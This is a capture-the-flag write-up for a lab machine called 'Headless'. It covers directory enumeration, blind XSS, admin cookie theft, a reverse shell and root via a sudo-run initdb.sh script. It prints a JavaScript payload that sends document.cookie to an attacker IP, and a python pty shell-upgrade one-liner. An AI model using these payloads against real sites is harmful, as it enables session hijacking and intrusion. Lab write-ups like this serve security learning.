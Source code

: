 ```yaml
---
description: python3 -c 'import pty; pty.spawn("/bin/bash")'
---
```


# Headless

# Site enumeration

On the site there is only a countdown but using ffuf we find a dashboard directory with a submit form feature lets try command injection.

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This quite interesting and seems to have the potential to be a blind XSS injection. Lets test that theory....

And yes we are able to insert a source attribute that pings our nc server. We will now attempt to steal the admins cookies. We will do this by inserting the JS code.

```
new Image().src='http://10.10.16.5/index?c='+document.cookie
```

And now we have the admins cookie and can access the dashboard as admin!!

# Priv esc

If we play around we can get command execution on the box using this setup...

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

We can use this to get a reverse shell. Once we are in we run sudo -l and see we can run this binary as root.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Lets analyise it. It seema it will run initdb.sh as root if we create the file in our home directory. So all we need to do is create the file and insert a simple reverse shell into it. And we get root!!

PWNDDDD
